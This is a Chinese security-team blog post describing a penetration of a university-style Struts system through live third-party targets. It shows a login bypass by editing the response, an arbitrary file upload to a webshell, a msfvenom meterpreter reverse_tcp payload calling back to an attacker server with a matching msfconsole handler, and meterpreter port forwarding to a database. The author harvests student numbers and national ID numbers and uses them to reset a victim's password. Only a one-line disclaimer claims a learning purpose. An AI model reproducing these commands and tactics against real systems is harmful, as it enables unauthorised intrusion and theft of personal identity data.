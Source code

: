 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/uJzp1oX69Al2UpxgGTMpiA)

这是 F12sec 的第 63 篇原创 

  

> **申明****：本次测试只作为学习用处，请勿未授权进行渗透测试，切勿用于其它用途！**

ps：感谢北神，小丑师傅给的代码

**本文由团队师傅 Challenger 投稿，转载请标明来源。**

1. 审计开始
-------

1. 为 struts 框架

查看 web.xml 中 <filter-mapping> 的 <url-pattern> 来确定拦截规则，当是.action 时所有以.action 为结尾的请求都会被 struts 处理拦截，/test/.action 则只有 test 目录下的请求会被拦截。

初步审计无需登录或者可以绕过登录的洞

再看 struts.xml 看对应.action 后端处理在那，看到设置了包扫描，所以.action 后端处理都在 dckj.business 下

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInJW4RX9SqBnpmqNMx5anvMaicmYxeiaXzER1AkCjUCBBAWvjMtMicctB3g/640?wx_fmt=png)

再看回 web.xml 看一下全局 filter 等 filter 过滤器，对应 Java 文件在 dckj.core.base.EntssGlobalFilter，因为审的是编译后的源码以前 com.web.servlet.uploadServlet

对应 classes/com/web/servlet/uploadServlet.class

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInmvdwsy1ODFLrxFce0WzFUhpPTjLfOOLKnA0lFeysGt2YraHfB3Wpkw/640?wx_fmt=png)

全局过滤，大概看了，就判断 cookie 的处理和白名单 ip 的处理，还有开放的静态路径

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInhG95fLpMcLoJh1P7bKiczNxjib9M9nfjXKPQEFtIULsCL8BnzjGnJiblw/640?wx_fmt=png)

CAS 单点登录认证：

https://blog.csdn.net/qq_41258204/article/details/84036875，这里可以直接访问服务器不被重定向回认证服务器，不太懂

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInm0FSmIgkFph9GO1icftw6OWSEfvibzIicjuVwn7lpibthn0e8ibILkN8swg/640?wx_fmt=png)

登录通过判断 sql 登录成功注入 java bean 对象然后通过监听器绑定对象来确认身份

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQIn4wibDtITHy72RiasozBu7lJiaU4GVGTlnQicDMyjlWkV9H05IwYgVic9Vww/640?wx_fmt=png)

1.HttpSessionBindingListener  
这个监听器，可以让 javaBean 对象，感知它被绑定到 session 中或从 session 中移除。  
2.HttpSessionActivationListener  
这个监听器，可以让 javaBean 感知，被钝化或活化。  
钝化—> 将 session 中的 javaBean 保存到文件中.  
活化—> 从文件中将 javaBean 直接获取。也就是说我们想通过改返回值”status”: “y” 绕过认证不太可能了

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInRnABibsOF1xay317bbCOwAU6dM3BydXZD1z0EfyuvpRwA1BfZM10PSw/640?wx_fmt=png)

只能看看有啥可以未授权访问的功能，看白名单，有个文件下载，看上去可以，但实践不行。

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInFLY47bspyBh3xicMYpSYPXaG1CHEWvibKvYCZia5IQ5nWuypqb6dlD7bw/640?wx_fmt=png)

本地 debug 可以穿目录下载文件 ok 实际测试 Fuzz 一波不行 0.0，放弃

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInVeEWjPKuAgTWxKvljc8WvjP0dndwAibBOA1zCicJnLY8fFgEib3kuEkvg/640?wx_fmt=png)

因为没有啥未授权的洞，只能搞账号，本地搭起环境麻烦审出来，也得有账号进实际的才有意思，而登录有验证码，如果训练识别验证码爆破很麻烦，而且效率低靠运气！放弃….. 但找回密码，

只 需要学号 + 身份证，后返回随机密码，无需电话验证还是有希望

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQIndFTErVfAMicayDsic9b5BhWlldaq4emCkQnapouuE3ibZB0f8la6EUpug/640?wx_fmt=png)

**打使用该系统的目标来获取学号和身份证**

谷歌 + 社工库没找到

直接打使用该系统的目标，通过漏洞获取账号 + 身份证 或者直接密码

这里有 3 个有效目标

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInM9qFoQ445Qw73mkXTibfPz4sMEhjN9MNI7zLuLctf8JmnsJoN09leSA/640?wx_fmt=png)  

挑第一个目标，企业查查确定资产，子域名…… 快速一波没有洞，打微信小程序也没洞，反编译小程序麻烦最后再试

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQIngjTLfPOgLnOb4khBnDdpqTjAknaawEiaWgal809s77Ey9vrfgicevMjQ/640?wx_fmt=png)

goby 扫端口重定向的域名的站，发现可管理员后台登录

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInq4YicRXrRhqOsDH6yzfz8Ntp0dKyVxXmDg3Fp6MgkBIn1u7hqWZhqSA/640?wx_fmt=png)

为 ThinkPhp 的站，TP 的站常规工具打一波 payload，无效，爆破无效，登录发包改返回包 0 改 1

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInxGoIV5dBH44fOWnvY7R2JMq5O7WvR8SKqlHuH6btooGqg9nO92JWxw/640?wx_fmt=png)

直接跳转到这，直接可以文件上传.

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQIn8W9jR5aYQqwGLJ9dW19HWOzhOJXTEABicQf57dMUn8TcFvlfic3iakeBg/640?wx_fmt=png)

真是好家伙!! 任意文件上传，直接送 shell 来了。

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInz4mp2h0kia5u1zfCqOFpsS25y9RIKnXE6AhrYQjBQo6BF886LRiccKew/640?wx_fmt=png)

目的拿学号 + 身份证 或者直接密码，翻数据库配置文件

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInvFmlFtudM8Nia6Ts9O4KXE4xv7Gl1IvwMNPCzhaayteqpCgEjY2Orxg/640?wx_fmt=png)

扫端口未开放 3306，只能

端口转发出来

为了上传下载文件稳定性，这里用 msf 进行（reGeorg 可能环境原因连不上）

生成马

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=服务器IP lport=667 -f elf > msf_667
```

msfconsole 上监听  

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 667
run
```

把生成的马上传上 webshell，然后运行

```
chmod +x /tmp/msf_667
/tmp/msf_667
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInOzXu9QFhmLpPWEtORfrmKQCFXd3yrib3EK9icv7YTErFySibxBOIFjQ9A/640?wx_fmt=png)

在反弹回来的 meterpreter 上进行端口转发

```
portfwd add -l 670 -p 3306 -r 127.0.0.1
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInruOtufKSl2PLteKCpBywuGMfFVy5sjkw9u56PrwHL8XGxoCaaT39MA/640?wx_fmt=png)

但站库分离，mysql 不在这台机, 淦卡住了，想其它代理，但可以直接将转发地址改为 mysql 服务器地址，

127.0.0.1 改 mysql 地址 portfwd add -l 671 -p 3306 -r 201.x.x.1

成功转发，msf 转发感谢 TARI 师兄的教导

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInZuxmEDvKoqicIVI1RcuDElO1dMmEDickAd1mPX7448X0zRRrZ7bicamTw/640?wx_fmt=png)

成功连接，只有学号和电话，密码加盐了

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInhGbxVICLCHG7aruEn5Lbiam2GILlpaQqkSoS1CDtEl59DMia4XgtWicdA/640?wx_fmt=png)在另外的数据库翻到超级管理员的密码这里不加盐但，登进去没啥可以获取学生身份证的功能，废了

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInwUU3Jy533QgXibhqlFfCUg6zLt6ibEHgMsic2P5QxyZJbGOqtRwpkyy4A/640?wx_fmt=png)

在用户登录为另外的网站，输入账号为手机号，密码随手 123456 登录成功返回身份证 NB 学号和身份证有了

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInhfck373tRkBjD5lsicKeg82tCZUN5VjcCghsy3te3By1nNx6PwrptZQ/640?wx_fmt=png)

有了 学号和身份证，回到要代码审计的系统去重置密码，重置他会返回随机密码：

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInGC52edibNK0jCM4phtofzMQhkyPeba0CqWFuZg9MmlHuv1EJSSMAv3g/640?wx_fmt=png)

成功登录。终于可以好好审计了

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInibAO2SFWVh8DQLHibSavZbDKyHtQ3hqpnTNh6XRZ9AU9B8CyYKAcqCpg/640?wx_fmt=png)

**再次黑白盒结合审计：（有待更新）**

才测一下子文件上传就崩了或者关网站了…，没法访问了淦 ，有白名单无法绕过，因为他会重命名 00 截断对文件名无效，但 patn 参数直接拼接可控，该系统用 jdk7, 可以尝试 00 截断，但实际 path 后有 / 不知可否截断

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa7MblkmfIzNcF4PfvibTQInV53YROyViaEUoib0e9ytUFaoo4g47yWAfdGJMwPvzKz3rr4lMxDgNOiaQ/640?wx_fmt=png)

受空字节截断影响的 JDK 版本范围: JDK<1.7.40, 单是 JDK7 于 2011 年 07 月 28 日发布至 2013 年 09 月 10 日发表 Java SE 7 Update 40 这两年多期间受影响的就有 16 个版本，值得注意的是 JDK1.6 虽然 JDK7 修复之后发布了数十个版本，但是并没有任何一个版本修复过这个问题，而 JDK8 发布时间在 JDK7 修复以后所以并不受此漏洞影响。

——————————————————————————

*   **往期精彩推荐**  
    

*   [实战 | 记一次基本的 edu 漏洞挖掘](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486593&idx=1&sn=220690b212ba14fc6dd57953f6962b0b&chksm=c07fb775f7083e63dc1d57780f3de03a556c1931480a6bf25ce4445b8ded7dc9dce26281c468&scene=21#wechat_redirect)
    

*   [经验分享 |  文件上传个人 bypass 总结](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486732&idx=1&sn=9552794c9893c4edcdffa77fd5e7819f&chksm=c07fb6f8f7083fee0a27d27bf7ea79b123927d7e6573f2ae328f919e459fec3ff8d6b7fbbf21&scene=21#wechat_redirect)  
    
*   [经验分享 | mssql 注入实战总结之狠快准绕](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486706&idx=1&sn=a5388ad25ab41a94de7d579ad5c74149&chksm=c07fb706f7083e10e709c1ac96e5b8a8e12d292164d139df23ab06c70f4dbf89888f7632638c&scene=21#wechat_redirect)
    

❤️爱心三连击
-------

1. 关注公众号「F12sec」！

2. 本文已收录在 F12sec 官方网站：http://www.0dayhack.net/

3. 看到这里了就点个关注支持下吧，你的「关注」是我创作的动力。

![](https://mmbiz.qpic.cn/mmbiz_png/Qx4WrVJtMVKBxb9neP6JKNK0OicjoME4RvV4HnTL7ky0RhCNB0jrJ66pBDHlSpSBIeBOqCrOTaWZ2GNWv466WNg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/EWF7rQrfibGYIzeAryXG89shFicuMUhR5eYdoSEffib7WmrGvGmSPpdvYfpGIA7YGKFMoF1IrXutHXuD8tBBbAYJg/640?wx_fmt=jpeg)

公众号：F12sec  

QQ 群：884338047

官方网站：http://www.0dayhack.net/

这是一个终身学习的团队，他们在坚持自己热爱的事情，欢迎加入 F12sec，和师傅们一起开心的挖洞～

        关注和转发是莫大鼓励❤️